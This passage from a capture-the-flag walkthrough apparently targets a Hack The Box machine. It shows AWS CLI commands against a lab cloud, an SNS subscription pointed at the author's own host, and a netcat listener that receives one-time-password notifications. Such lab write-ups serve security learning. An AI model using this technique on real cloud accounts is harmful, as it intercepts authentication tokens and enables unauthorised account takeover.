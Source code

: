It was using a private cloud located at `cloud.htb`. I added that to my hosts file and defined an alias so the AWS CLI would hit that cloud.

```bash
alias aws='aws --endpoint-url http://cloud.htb'
```

I tried to use them again.

```bash
$ aws dynamodb get-item --table-name users --key '{"username": {"S": "marcus"}}'

An error occurred (403) when calling the GetItem operation: User arn:aws:iam::000000000000:user/tom is not authorized to perform this action
```

The access key did not have permission to use DynamoDB. I tried it on S3 also and got the same result.

Since the code was using SNS. I tried to list the topics.

```bash
$ aws sns list-topics
{
    "Topics": [
        {
            "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp"
        }
    ]
}
```

That worked. I was able to access one SNS topic. I subscribed to it, asking AWS to send notifications to my machine via HTTP.


```bash
$ aws sns subscribe --topic-arn arn:aws:sns:us-east-2:000000000000:otp --protocol http --notification-endpoint http://10.10.14.25 --attributes '{"RawMessageDelivery": "true"}'
{
    "SubscriptionArn": "arn:aws:sns:us-east-2:000000000000:otp:0350e024-5b35-4861-87d1-8d8072943b5f"
}
```

I started a netcat listener and reconnected on the website. Netcat got a hit with a token to use in the OTP.

```bash
$ nc -klvnp 80
Listening on 0.0.0.0 80

Connection received on 10.129.198.36 55930
POST / HTTP/1.1
Host: 10.10.14.25
User-Agent: Amazon Simple Notification Service Agent
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: text/plain
x-amz-sns-message-type: Notification
x-amz-sns-topic-arn: arn:aws:sns:us-east-2:000000000000:otp
x-amz-sns-subscription-arn: arn:aws:sns:us-east-2:000000000000:otp:0350e024-5b35-4861-87d1-8d8072943b5f
Content-Length: 529

```